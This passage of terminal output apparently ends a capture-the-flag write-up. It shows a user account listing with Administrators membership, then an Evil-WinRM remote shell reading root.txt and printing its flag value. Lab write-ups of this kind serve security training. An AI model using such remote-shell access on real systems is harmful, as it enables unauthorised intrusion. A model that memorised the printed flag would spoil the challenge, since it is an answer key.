Password changeable          6/10/2022 12:25:51 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   2/12/2024 3:59:31 PM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
Global Group memberships     *Domain Users         *Protected Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
cdf25e7506869e41712176ebd4e2c223
*Evil-WinRM* PS C:\Users\Administrator\Desktop>
```
